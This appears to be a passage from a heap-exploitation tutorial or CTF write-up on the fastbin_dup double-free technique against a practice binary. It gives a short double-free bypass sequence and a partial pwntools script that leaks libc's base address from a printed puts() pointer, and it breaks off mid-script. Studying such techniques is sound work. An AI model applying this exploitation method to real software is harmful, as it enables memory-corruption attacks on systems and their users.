 **Practical Bypass Strategy**

```python
# Bypass double-free protection
free(0)  # Free chunk A
free(1)  # Free chunk B (intermediate)
free(0)  # Free chunk A again - now bypassed!
```

I am using the following **pwntools** script for automation.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'fastbin_dup')
libc = ELF(exe.libc.path, checksec=False) 

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

def malloc(size, data):
    global idx 
    idx += 1
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.recvuntil(b'size: ')
    io.sendline(f"{size}")
    io.recvuntil(b'data: ')
    io.sendline(data)
    return idx -1

def free(idx):
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b'index: ')
    io.sendline(f"{idx}")
    
# -- Exploit goes here --

io = start()

io.recvuntil(b'puts() @ ')

puts = io.recvline() # 0x7a03db46faf0
libc.address = int(puts, 16) - libc.sym.puts
log.success(f"libc base @ {hex(libc.address)}")

io.recvuntil(b'username:')

io.sendline(b'AAAAAAAA')

"""
1) malloc 0/7
2) free
```
